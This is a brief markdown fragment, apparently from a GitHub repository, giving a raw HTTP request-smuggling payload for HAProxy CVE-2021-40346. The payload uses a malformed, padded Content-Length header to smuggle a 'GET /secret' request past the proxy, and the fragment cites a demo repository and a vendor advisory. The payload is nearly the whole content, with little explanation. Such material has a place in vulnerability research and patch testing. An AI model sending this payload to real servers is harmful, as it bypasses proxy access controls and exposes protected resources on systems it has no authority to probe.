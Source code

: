 ### single crafted HTTP requests
```
POST /index.html HTTP/1.1
Host: <rhost>
Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:
Content-Length: XX

GET /secret HTTP/1.1  
Host: <rhost>  
```

### References:
https://github.com/CHYbeta/OddProxyDemo/tree/master/haproxy/demo1  
https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/  

